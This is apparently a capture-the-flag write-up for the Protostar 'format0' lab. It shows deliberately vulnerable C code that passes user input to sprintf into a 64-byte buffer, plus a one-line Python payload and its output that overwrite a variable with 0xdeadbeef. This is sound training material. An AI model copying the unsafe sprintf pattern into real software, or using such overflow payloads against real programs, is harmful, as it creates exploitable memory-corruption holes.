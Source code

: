 Source:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

This looks like a buffer overflow problem.

Type the following: `python -c "print 'a'*64+'\xef\xbe\xad\xde'" | xargs ./format0`

Sample output:
```bash
user@protostar:/opt/protostar/bin$ python -c "print 'a'*64+'\xef\xbe\xad\xde'" | xargs ./format0
you have hit the target correctly :)
```
